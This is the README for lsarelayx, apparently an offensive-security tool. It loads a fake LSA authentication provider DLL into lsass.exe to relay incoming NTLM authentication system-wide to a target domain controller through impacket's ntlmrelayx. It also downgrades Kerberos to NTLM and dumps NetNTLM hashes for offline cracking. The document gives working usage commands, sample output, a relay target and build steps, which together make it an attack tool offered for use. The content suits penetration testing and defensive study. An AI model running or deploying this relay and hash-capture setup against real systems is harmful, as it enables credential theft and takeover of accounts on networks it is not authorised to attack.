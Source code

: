 # lsarelayx

## Introduction

lsarelayx is system wide NTLM relay tool designed to relay incoming NTLM based authentication to the host it is running on.  lsarelayx will relay **any** incoming authentication request which includes SMB.  Since lsarelayx hooks into existing application authentication flows, the tool will also attempt to service the original authentication request after the relay is complete.  This will prevent the target application/protocol from displaying errors and function as normal for end users authenticating against the lsarelayx host.

### **Features**

* Relays NTLM connections system wide, including SMB, HTTP/HTTPS, LDAP/LDAPS or any other third party application implementing the Windows authentication APIs.
* Where possible, downgrades incoming Kerberos authentication requests to NTLM.  This will cause clients that would traditionally attempt Kerberos authentication to fallback to NTLM.
* Performs an LDAP query for the relayed user to fetch group membership info an create the correct authentication token for the original request.
* Dumps NetNTLM messages for offline cracking.
* Supports a passive mode that does not relay and only dumps captured NetNTLM hashes (no Kerberos downgrade in this mode).

## How it works

lsarelayx comes in three parts.  A fake LSA authentication provider implemented within liblsarelay.dll, a user mode console application as the control interface and a new ntlmrelayx server module called RAW.

### liblsarelayx.dll

liblsarelayx.dll is the LSA authentication provider that gets loaded by lsarelayx.  It's predominant purpose is to hook the NTLM and Negotiate packages to facilitating redirecting authentication requests to lsarelayx over a local named pipe for relaying and dumping NetNTLM hashes.  liblsarelayx is designed to be as simple as possible where all the heavy lifting is performed by lsarelayx

### lsarelayx.exe

lsarelayx.exe is the main console application used to load the custom LSA authentication provider (liblsarelayx.dll), listen for incoming NTLM and Negotiate tokens from the authentication provider and relay to ntlmrelayx's RAW server module.  The tool also performs the LDAP queries used for capturing group information for relayed users and passing back to the LSA authentication provider.

### RAW ntlmrelayx module

impacket's ntlmrelayx has implemented a significant amount of work creating relay attacks and will continue to improve and add further attack in the future.  To take advantage of this in favour of reimplementing attacks directly within lsarelayx, a new ntlmrelayx server module was created called RAW.  Currently there is a [PR open on GitHub](https://github.com/SecureAuthCorp/impacket/pull/1190) that implements the RAW server module.  The RAW server module is protocol agnostic and is designed to accept the raw NTLM messages directly from 3rd party software like lsarelayx.

Until the PR is merged into the mainline impacket repo, you can use [this version](https://github.com/CCob/impacket)

## Usage

### Active Mode

First start the ntmlrelayx RAW server module to listen for RAW NTLM messages passed from lsarelayx.

```
python examples\ntlmrelayx.py -smb2support --no-wcf-server --no-smb-server --no-http-server "-t" smb://dc.victim.lan

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

lsarelayx itself requires local administrator permissions to run.  To run in active relay mode, the host address where ntlmrelayx is running the raw server module needs to be specified.  The default port is 6666.  This can be overridden with the `--port` argument, but be sure to have also overridden the port on the ntlmrelayx side too using the `--raw-port` argument.

```
lsarelayx.exe --host 192.168.1.1
[+] Using 192.168.1.1:6666 for relaying NTLM connections
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Passive Mode

You can also run lsarelayx in passive mode by running without any arguments

```
lsarelayx.exe
[=] No host supplied, switching to passive mode
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Caveats

Once the liblsarelayx DLL has been loaded into lsass, currently you cannot unload it due to limitations of how LSA plugins work.  The client can be closed which will put the DLL into a dormant state until the client starts again but the DLL will be in use until a reboot occurs.

Since the LSA plugin is not actually a genuine plugin, there are plans to implement a reflective loader inside the plugin which can then be stopped and started at will but that’s an exercise for another day.

Development was performed on Windows 10 and Server 2016.  A quick test was performed on Windows Server 2012 R2 which worked, but the calculation of offsets for hooking can fail on 2012 (this can be provided manually using the `lookuppackage-hint=`, get it wrong and Windows will reboot).  No testing has been performed on anything below Windows 10 on the desktop side and nothing tested on Server 2019 at all.

## !!WARNING!!

liblsarelayx.dll will be loaded inside the critical lsass.exe process.  If liblsarelayx.dll has any bugs that lead to crashing lsass.exe, the host **WILL** reboot after 60s.  Whilst best efforts have been made to write bug free code, I can't promise anything.  Don't come crying to me that you took your fortune 500 client down for crashing the busy file server after using lsarelayx.

## Building

### Docker

If you have docker installed, this is the quickest option. It utilises the `ccob/windows_cross` image with all the build dependencies pre-installed.

#### Docker on Windows (Powershell)

```shell
docker run --rm -it -v $env:pwd\:/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build .; cmake --install ."
```

#### Docker on Linux

```shell
docker run --rm -it -v $(pwd):/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build .; cmake --install ."
```

### Linux

On Linux we utilise a CMake toolchain along with the MinGW compiler.  These need to be installed before hand.  For the managed component, please make sure the dotnet command line tool is also installed from .NET core

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..
cmake --build .
cmake --install .
```

### Windows (Powershell)

Windows will require a full CMake, MinGW and Visual Studio setup before even attempting to build, it's the most painful way to build if you don't have a development environment installed 

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -G "MinGW Makefiles" ..
cmake --build .
cmake --install .
```